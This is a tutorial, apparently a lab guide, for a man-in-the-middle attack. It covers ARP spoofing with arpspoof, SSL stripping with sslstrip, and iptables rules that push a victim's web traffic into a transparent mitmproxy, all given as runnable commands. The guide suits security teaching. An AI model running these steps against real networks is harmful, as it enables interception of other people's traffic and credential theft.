 # Man in the middle attack using mitm-proxy

We are going to use arpspoof tool that is part of the dsniff suite for the MITM attack and mitmproxy for instancing a transparent MITM proxy for HTTP and HTTPS. If not already installed, with Kali Linux you can install them with:

```source
kali@attacker:$ sudo apt update
kali@attacker:$ sudo apt install dsniff mitmproxy
```

Implement a link-layer MITM attack for all the traffic from the victim to the Internet. In the attacker’s machine:

* Enable IP forwarding and disable ICMP redirects. To do so, edit `/etc/sysctl.conf` and uncomment (remove the #) the following lines:
    * `net.ipv4.ip_forward = 1`
    * `net.ipv4.conf.all.send_redirects = 0`
    * reload sysctl with: `sysctl -p`

ARP poison the victim in order to be in the middle of the traffic from the victim to the Internet:

```source
kali@attacker:$ sudo arpspoof -t <vitim_IP> <gateway_IP>
```


## SSLstrip attack

Now, letting the `arpspoof` running, on other terminal we start the `sslstrip` tool:

```source
kali@attacker:$ sslstrip –l 9000
```
> The port can be whatever you want

Now, we forward all the HTTP traffic from the victim to the Internet to your local sslstrip service:

```source
sudo iptables-legacy -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 9000
```

Be aware that with that method we are attacking HTTP, not HTTP**S**. So we will see only the HTTP traffic.

## MITproxy attack

**Important!** if you're using the same VM to run the MITM attack and the SSLstrip attack, you need to run flush the rules that were added to the iptables. To do so, run the following command:

```source
sudo iptables -t nat -F
```

Now, run mitmproxy and forward all the HTTP and HTTPS traffic from the victim to your local mitmproxy service. We will use the web version since it is more user friendly:

```source
mitmweb --mode transparent --showhost -p 5555
```

> Again, the port number here is arbitrary.

Now, add the forwarding rules in order to forward all the traffic (one rule for HTTP and another one for HTTPS) to our proxy server:

```source
sudo iptables-legacy -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 5555
sudo iptables-legacy -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 5555
```